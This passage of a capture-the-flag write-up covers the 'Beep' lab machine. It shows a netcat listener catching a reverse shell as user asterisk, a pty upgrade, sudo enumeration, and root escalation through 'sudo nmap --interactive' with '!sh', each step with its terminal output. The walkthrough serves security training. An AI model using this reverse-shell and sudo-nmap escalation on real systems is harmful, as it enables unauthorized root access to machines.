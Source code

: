 ```
root@kali:~/htb/beep# nc -lvp 443
listening on [any] 443 ...
10.10.10.7: inverse host lookup failed: Unknown host
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.7] 40123
id
uid=100(asterisk) gid=101(asterisk)

python -c "import pty;pty.spawn('/bin/bash')"
bash-3.2$
```

The exploit mentioned a way to priv esc using sudo and nmap interactive on the target host. Let's try that

First let's verify that we can run nmap as root without a password:

```
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR
    LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC
    LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper

``` 

Next run nmap in interactive mode and spawn a root shell:

```
sh-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# 
```
